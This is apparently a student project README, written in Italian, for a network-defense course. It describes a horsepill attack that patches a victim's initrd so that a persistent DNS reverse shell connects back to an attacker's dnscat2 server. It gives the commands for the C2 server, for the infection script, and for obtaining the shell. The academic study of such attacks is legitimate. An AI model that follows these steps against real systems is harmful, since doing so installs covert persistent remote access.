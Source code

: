 # Network and System Defense project
## Alessandro Chillotti (mat. 0299824)

## Traccia del progetto (traduzione)
È richiesto produrre un payload (utilizzando qualunque vettore) che è in grado di installare una DNS shell (e.g. guardare [qui](https://github.com/sensepost/DNS-Shell)) utilizzando un horsepill attack. Il payload deve essere in grado di sopravvivere agli update del kernel.

## Come effettuare l'attacco
### Configurazione del server dnscat2
È necessario mettere up and running un server `dnscat2` e per fare questo è necessario eseguire i seguenti comandi:

1. Effettuare la clone del [repository](https://github.com/iagox86/dnscat2.git) di dnscat2 e seguire le indicazioni per la configurazione dell'ambiente
2. Spostarsi all'interno della directory `server`
3. Eseguire il seguente comando
```[bash]
bundle exec ruby dnscat2.rb --dns 'host=xxx.xxx.xxx.xxx,port=53531'
```
### Preparazione dell'attacco
Sulla macchina di lavoro è necessario configurare correttamente il [file](horsepill-attack.patch) di patch, ovvero bisogna aggiornare:

- l'indirizzo IP della macchina sulla quale connetersi;
- la secret che verrà fornita nel momento in cui il server `dnscat2` sarà up and running.

Una volta che la patch è configurata correttamente, dovrà essere inviata alla macchina vittima insieme al file [infect.sh](infect.sh).
### Esecuzione sulla macchina vittima
Una volta che la macchina vittima è in possesso dei file [horsepill-attack.patch](horsepill-attack.patch) e [infect.sh](infect.sh) bisogna eseguire il seguente comando:
```[bash]
./infect.sh ABSOLUTE_PATH_INITRD ABSOLUTE_PATH_PATCH
```
### Shell sulla macchina host
Al termine dell'esecuzione dello script [infect.sh](infect.sh) verrà effettuato il reboot della macchina vittima e, una volta completato, si noterà nel processo server di `dnscat2` una nuova connessione.

Una volta ricevuta la connessione è necessario digitare il comando `window -i 1` e poi il comando `shell`. A questo punto, sarà generata una nuova shell e con il comando `window -i 2` si potrà gestire la shell sh.
